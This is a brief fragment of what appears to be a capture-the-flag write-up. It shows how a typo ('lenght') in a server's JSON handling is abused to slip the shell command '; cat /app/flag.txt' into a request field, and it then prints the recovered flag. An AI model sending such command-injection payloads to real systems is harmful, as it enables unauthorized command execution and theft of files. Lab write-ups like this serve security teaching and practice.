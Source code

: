 The initial request sent a `JSON` like this:

```js
{
    "value": "PWNME2023"
}
```

We can modify the request to take advantage of this typo by sending:

```js
{
    "value": {
        "length": 151,
        "lenght": "; cat /app/flag.txt"
    }
}
```

# Flag
```
PWNME{E4Sy_P34sI_B4CkdO0R}\n
```